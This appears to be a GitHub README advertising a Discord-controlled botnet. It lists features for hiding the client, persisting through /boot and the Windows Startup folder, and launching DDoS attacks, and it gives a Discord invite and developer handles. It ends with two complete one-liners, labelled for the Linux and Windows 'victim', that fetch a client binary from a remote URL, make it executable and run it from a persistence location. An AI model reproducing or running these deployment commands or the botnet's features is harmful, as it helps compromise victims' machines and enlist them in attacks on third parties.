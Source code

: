 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/203850203-55e89e04-0f26-4d3c-b87f-e9d8be7ef81f.png)

https://discord.gg/vCdPTjD6rZ

# Developers
me: batu.sh#9675

bnt: @udbnt

# Features
* Hidden (Works in /tmp, %temp% + Console is always hidden)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script

# Soon (self cmds)
* Zmap entine network scan
* Webcam picture
* ?

# Commands
![image](https://user-images.githubusercontent.com/104208624/203849645-908bde50-bd0a-49fa-9a8a-1f948953677e.png)

# Linux victim
cd /boot; apt-get update -y; apt-get install curl -y; [ -f "Client" ] && rm Client; curl -O Client "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 Client; ./Client

# Windows victim
cd "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" && if exist Client.exe del Client.exe && powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile Client.exe && Client.exe
